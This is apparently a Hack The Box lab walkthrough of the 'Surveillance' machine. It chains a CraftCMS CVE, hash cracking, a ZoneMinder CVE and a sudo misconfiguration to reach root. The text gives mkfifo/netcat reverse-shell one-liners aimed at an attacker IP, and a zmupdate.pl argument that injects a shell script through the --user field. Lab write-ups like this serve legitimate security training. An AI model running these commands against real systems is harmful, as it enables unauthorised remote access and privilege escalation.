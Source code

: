 ```yaml
---
layout: post
title: "HTB Surveillance: Walkthrough"
date: 2024-11-17 10:00:00 +0000
categories: [HTB]
tags: [HTB, CVE, Sudo, Port Forwarding]
image:
  path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Headers/HTB.png
---
```


![image](https://github.com/user-attachments/assets/51ff08a4-0cf0-4452-90c9-98c0f45d4cf3)

We start off with exploiting a CVE in a vulnerable CraftCMS running on the target webserver. This is then followed by a series of 3 privilege escalations. The first requiring us to download a backup SQL db `.zip` file containing an old users hash, which we can crack to gain SSH into the machine. The second involves another CVE on a `ZoneMinder` instance running on the targets localhost. Finally, we can abuse a misconfiguraton in our sudo privileges to gain access as the root user. 

## 0) Machine Overview
1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
4. [Privilege Escalation](#3-privilege-escalation)
5. [Privilege Escalation 2](#4-privilege-escalation-2)
6. [Privilege Escalation 3](#5-privilege-escalation-3)


### 1) Scans

```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)

80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://surveillance.htb/

8181/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)

8888/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
```


## 2) Web Enumeration

Seems we're dealing with CraftCMS:

![image](https://github.com/user-attachments/assets/dde079b4-381f-43ce-8ae1-50cacb407155)


With a bit of research, we come across a [PoC](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226
) for a CVE that happened recently.

If we exploit it using this script, we're able to get a "web-shell". (Just to note, you'll have to have Burpsuite running as the exploit connect to your proxy at first for this script to work.)

![image](https://github.com/user-attachments/assets/0310a88c-5d84-4377-89fb-b2bc6d41ab78)

Now that we're in, we need to find a way to leverage this web-shell to get a full reverse shell or an SSH connection. 

After various attempts to catch the shell, this command worked the best, giving us a very nice shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.14 4444 >/tmp/f
```
![image](https://github.com/user-attachments/assets/8def25ae-0984-4f66-8fb6-a8727306224f)

## 3) Privilege Escalation

Now to privilege escalate.

Now before I try loading `linPEAS` or anything like that onto the machine, I like to manually enumerate a little bit and check for low-hanging fruit and look through config files.

- No interesting SUID files.
- Cant access any of the other users home directories.
- We have 2 users with home directories.
  
![image](https://github.com/user-attachments/assets/d07fd683-6660-42a5-9846-b881942e7909)

Lets start looking through the CMS files and see if we can find anything interesting....

![image](https://github.com/user-attachments/assets/23a6d9fe-328e-4484-9340-80c998dbacc1)

Hmm a `.env` file. Thats definitely interesting.

![image](https://github.com/user-attachments/assets/5ccce8c0-2707-4da5-9cf1-d3a77542fc43)


Seems theres a MySQL DB running on the host.. and potentially another webserver on port 8080? We'll have to check that out afterwards, maybe through a portforward.

![image](https://github.com/user-attachments/assets/417449fb-1002-4cad-8d3a-392dd3003ed8)

I tried connecting to the DB, but it basically just kept hanging every time. So I just decided to upload a `metty.elf` file and get a meterpreter shell.

![image](https://github.com/user-attachments/assets/b5018a3b-fc4a-4744-baf3-aa4df1cbc262)

Now we are able to successfully access the DB.

![image](https://github.com/user-attachments/assets/d786e72b-834b-4b02-85f7-87ca2094357d)

![image](https://github.com/user-attachments/assets/fc56c864-00a2-43fc-bd25-5d65e96130af)

![image](https://github.com/user-attachments/assets/479286b0-5e4d-4441-972f-52317aa4cf45)

As we can see, there is a `bcrypt` hash belonging to the admin user, who also seems to be Matthew. Lets try hacking that hash offline, although I'm not too confident.

After a while of trying to crack it, it seems like this wasn't the intended route.

After some more enumeration, we find a backup `.zip` file.

![image](https://github.com/user-attachments/assets/3f4e8c25-9731-4767-b891-85ed490b8028)

Lets take that offline and take a look.

![image](https://github.com/user-attachments/assets/b8f90219-f837-4db0-be3a-bf217f2326d0)

Jackpot. Another hash for Matthew, which seems to be SHA-256. Now to crack it.

![image](https://github.com/user-attachments/assets/b9a300b0-f08c-4870-bc89-3e0c7ab87d52)

Lets try SSHing into the machine as matthew.

![image](https://github.com/user-attachments/assets/63b26603-fdc0-4447-8545-2dd7f91e765f)

![image](https://github.com/user-attachments/assets/b52f28ed-47dd-42d3-9794-643da79160dd)

## 4) Privilege Escalation 2

Now that we're on matthew, we can again check for low-hanging fruit. In this case, I didn't find any in this case, so lets run `linpeas`.

![image](https://github.com/user-attachments/assets/cb4f81ed-cd1b-440c-b054-d6d6d7364dff)

Interesting. I checked GTFOBins to see if there was a quick win, as I'm not that familiar with abusing capabilities.

![image](https://github.com/user-attachments/assets/aaaae3c0-8ff7-4355-9a67-733a1e3a302b)

Lets give it a try:

![image](https://github.com/user-attachments/assets/3d6cc604-66b8-4c29-acd0-ab33422c6273)

So it seems like because the python3 file is owned by `zoneminder`, we cant run it unless we are that user. _(Note: I'm writing this after completing the box. I think that the reason it didn't work was because that capability is basically like a SUID, and because the file is owned by zoneminder. Either way, I tried to specify the UID of zoneminder's, but it kept giving me access denied.)_

One other thing to note is that, in our linpeas output, it mentions something about that server running on 8080.

![image](https://github.com/user-attachments/assets/ccd58c3e-bfe0-4859-a2af-88a3b5049089)

Seems like its running PHP within an nginx webserver. Lets port forward now. (This command will allow us to access port 8080 on our local machines port 1234)

![image](https://github.com/user-attachments/assets/3c5db412-66dd-4a85-ade2-3c8acf7ae740)

![image](https://github.com/user-attachments/assets/de018b9d-523e-4b25-8967-b9c14aff08f6)

Now if we go back and look at the zoneminder.conf file a little more, we'll notice that the webroot is at:

![image](https://github.com/user-attachments/assets/f1cb747c-8d1b-412a-963e-5f6787567b5a)

Interesting, lets check out that `db` folder.

![image](https://github.com/user-attachments/assets/051fdb71-95f7-4f18-91cb-a76da4816f5d)

So it seems its showing a list of version updates that were made to the zoneminder application. Seems like its currently running `v1.36.9` or some version along those lines. Lets check for a CVE.

![image](https://github.com/user-attachments/assets/02e64d67-59a7-499f-bcaa-ef45807846cf)

Looks like our version would fall within that range, so we can try looking for a PoC, which in this case, there happen to be a few, so I'll be using [this](https://github.com/rvizx/CVE-2023-26035/tree/main) one.

![image](https://github.com/user-attachments/assets/88f500bb-345c-4220-825e-4517e9b0b431)

![image](https://github.com/user-attachments/assets/5c9ff9ee-c96b-44ce-8d96-2135de2543ea)

## 5) Privilege Escalation 3

Now that we're zoneminder, our final goal is close within reach. We can run a quick `sudo -l` and see if there is a quick win, hopefully without requiring a password.

![image](https://github.com/user-attachments/assets/3d8ee58d-48ee-4893-b7f0-78030ae951e0)

So after quite a bit of research and messing with the various `zm*.pl` files there are, we can leverage `zmupdate.pl` to basically pass a script to get executed as the username in one of the command parameters, and we'll need to use a password that we can find in a database.php file: (Note: don't think the password is actually needed for this exploit)

![image](https://github.com/user-attachments/assets/67c36cf1-dc2e-45ca-bafa-42b486092abf)

So the final command will look like this:
```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/revshell.sh)' --pass=ZoneMinderPassword2023
```

I had to try multiple reverse shells, the one that worked for me was:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.14 5555 >/tmp/f`

![image](https://github.com/user-attachments/assets/e0602271-165d-45c0-a0c3-3caa3c2b334f)



